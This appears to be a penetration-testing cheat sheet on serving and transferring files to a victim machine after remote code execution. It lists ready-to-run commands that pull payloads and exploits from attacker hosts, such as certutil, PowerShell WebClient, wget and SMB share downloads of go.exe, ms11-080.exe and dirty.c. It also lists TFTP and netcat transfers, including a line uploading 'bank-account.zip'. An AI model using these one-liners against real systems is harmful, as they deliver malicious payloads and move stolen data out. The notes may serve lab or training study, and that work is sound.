 # Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

#### HTTP
```
sudo service apache2 start
/var/www/html

wget http://192.168.1.42/go.exe
```

#### SIMPLE HTTP
```python SimpleHTTPServer.py```

Will serve up on port 8000 in the folder you run the script from

#### TFTP
```
atftpd --daemon --port 69 /tftp

cd /tftp 
touch incoming 
chmod 777 incoming

tftp -i 10.11.0.185 GET test.txt
tftp -i 10.11.0.185 PUT bank-account.zip incoming
```

#### SMB
```
smbserver.py [sharename] [folder to server]
smbserver.py sharez /tmp/smbsharedzz/

Dir \\192.168.1.48\sharez
\\192.168.1.48\sharez\go.exe
```





# File Transfer - Windows
#### tftp
``tftp -i 10.11.0.185 GET test.txt``

#### smb
```
Dir \\192.168.1.48\sharez
\\192.168.1.48\sharez\go.exe
```

#### http - 
```cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe```

```certutil -urlcache -split -f "http://10.11.0.158/ms11-080.exe" C:\temp\ms11-080.exe```
#### Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe", "C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```





# File Transfer - Linux
```wget http://10.11.0.158/dirty.c -O /tmp/dirty.c```

```scp root@10.11.0.158:~/Downloads/dirty.c .```

#### netcat

```
nc -lnvp <LPORT> < <FILE>
nc <RHOST> <RPORT> > <FILE>
```








# More -  Windows lolbins
[BitsAdmin ](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

```certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>```
